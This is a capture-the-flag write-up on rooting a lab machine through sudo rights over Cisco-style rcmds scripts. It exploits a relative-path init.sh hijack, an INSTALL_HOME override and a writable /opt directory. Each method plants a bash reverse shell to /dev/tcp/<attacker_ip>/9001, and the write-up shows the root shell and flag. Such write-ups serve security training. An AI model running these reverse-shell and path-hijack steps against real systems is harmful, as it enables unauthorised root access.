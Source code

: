 # Prime Time (root)
<p align="center">
    <img src="img/prime_time_root_chall.png" alt="Challenge" width="500"/>
</p>

The shell we got from exploiting the ActiveMQ service only gives us a *pseudo-shell* (which is a bit annoying to use), so we start by adding our ssh public-key to `/home/activemq/.ssh/authorized_keys` so that we can ssh into the machine.

As the user `prime` we have some sudo-rights which we are going to exploit to root the machine.
```
[prime@ip-10-128-2-125 ~]$ sudo -l
Matching Defaults entries for prime on ip-10-128-2-125:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-125:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We are allowed to set environment variables and run scripts located in `/opt/CSCOlumos/rcmds/`. Inside this directory there are 88 (!) scripts which we can run.
```
[prime@ip-10-128-2-125 ~]$ ls /opt/CSCOlumos/rcmds/ -l | wc -l
88
```

With this many scripts to analyze for vulnerabilities the easiest method is probably to look at the smaller ones. There are multiple scripts which can be abused to escalate our privileges to root, using the same method(s). I ended up using the `hmadmin.sh` script to solve the challenge.
```
[prime@ip-10-128-2-125 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh
```

It first executes `init.sh`, which is a script doing a lot of stuff (e.g. set the `$INSTALL_HOME` environment variable to `/opt/CSCOlumos`), but most importantly, its path is not absolute. This means that we can be in any directory executing `/opt/CSCOlumos/rcmds/hmadmin.sh`, and the it will search for `init.sh` in our current working directory. Because we can execute `/opt/CSCOlumos/rcmds/hmadmin.sh` as root, and that script executes `init.sh` in our CWD (in this case /dev/shm), we can create an `init.sh` which gives us a reverse shell.
```
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
init.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo /opt/CSCOlumos/rcmds/hmadmin.sh` and listening on port 9001 with `nc -lnvp 9001` then gives us shell as root!
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.125] 34292
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# cat /root/root.txt
cat /root/root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```


**Note:** During the ctf my exploit looked a little different. I made my own `init.sh` which basically was empty, created my own `bin/hmadmin.sh` in CWD which executed the reverse shell, and set the `INSTALL_HOME` environment variable to CWD to execute my own `bin/hmadmin.sh` file. This lead to the *real* `hmadmin.sh` to search for and execute my `bin/hmadmin.sh`
```
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
bin  init.sh
[prime@ip-10-128-2-125 shm]$ ls bin
hmadmin.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

echo "Executed"
[prime@ip-10-128-2-125 shm]$ cat bin/hmadmin.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo INSTALL_HOME=/dev/shm /opt/CSCOlumos/rcmds/hmadmin.sh` gives a reverse shell as root, similar to the other technique.

## Bonus: Prime Time (root)
In addition to the `path hijack` vulnerability to escalate privileges to root, there is an `insecure file permission` vulnerability as well that can be exploited!

As a reminder, we can run scripts located in `/opt/CSCOlumos/rcmds/` as root.
<p align="center">
    <img src="img/prime_time_meme.png" alt="Meme" width="500"/>
</p>

Whoops...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls -al
total 172
drwxrwxr-x. 60 prime root     4096 Nov  5 06:15 .
drwxr-xr-x.  4 root  root       39 Oct 15 03:42 ..
```

Apparently, we just own the directory `/opt/CSCOlumos/` as the user `prime`, so we can create a new `rcmds` directory with any scripts we want inside, and run them as root...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls rcmds/
shell.sh
[prime@ip-10-128-3-174 CSCOlumos]$ cat rcmds/shell.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running this script gives us a root shell once again.
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.3.174] 52254
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
